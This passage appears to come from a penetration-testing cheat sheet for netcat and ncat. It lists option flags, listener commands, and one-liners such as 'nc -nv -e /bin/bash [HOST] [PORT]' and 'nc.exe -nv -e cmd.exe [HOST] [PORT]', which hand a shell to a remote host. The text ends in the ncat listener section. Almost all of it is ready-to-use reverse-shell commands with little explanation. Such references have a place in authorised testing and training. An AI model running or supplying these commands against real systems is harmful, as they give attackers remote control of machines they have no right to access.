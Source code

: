 ### Options
```
-n: numeric-only IP addresses
-v: verbose
-e [PROGRAM_NAME]: execute program after connecting
-l: listen for incoming connections
-p: port to listen on
-u: use UDP instead of TCP
```

### Listener
```
nc -nvlp [PORT]
```
```
nc.exe -nvlp [PORT]
```

### *nix
```
nc -nv -e /bin/bash [HOST] [PORT]
```
```
nc -nv -e /bin/sh [HOST] [PORT]
```

### Windows
```
nc.exe -nv -e cmd.exe [HOST] [PORT]
```


## Ncat
[Ncat](https://nmap.org/ncat/) is a netcat variant (provided by the makers of Nmap) that supports encrypted connections utilizing SSL/TLS

### Options
```
-n: numeric-only IP addresses
-v: verbose
-e [PROGRAM_NAME]: execute program after connecting
-l: listen for incoming connections
-p: port to listen on
-u: use UDP instead of TCP
--ssl: use SSL/TLS encryption for connection
--sctp: use SCTP instead of TCP
```

### Listener (clear-text)
```
ncat -nvlp [PORT]
```
```
ncat.exe -nvlp [PORT]
```
